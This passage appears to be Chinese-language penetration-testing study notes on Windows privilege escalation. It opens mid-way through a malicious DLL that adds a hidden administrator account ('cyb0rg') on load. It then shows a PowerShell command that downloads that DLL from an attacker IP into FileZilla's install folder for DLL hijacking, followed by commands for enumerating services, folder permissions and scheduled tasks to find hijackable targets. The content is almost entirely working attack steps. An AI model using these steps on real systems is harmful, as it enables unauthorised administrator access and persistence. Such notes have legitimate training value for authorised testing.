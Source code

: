 ```
  	    i = system ("net localgroup administrators cyb0rg /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

### DLL转移

```
iwr -uri http://192.168.45.161/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```



## 服务二进制劫持

### 枚举正在运行和已停止的服务

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

### 查看目录权限

```
icacls "C:\Program Files\Windows Media Player"
```

### PS启停应用

```
Start-Service GammaService
Stop-Service GammaService
Restart-Service GammaService
```



## 计划任务

```
Get-ScheduledTask
schtasks /query /fo LIST /v
```

## SigmaPotato
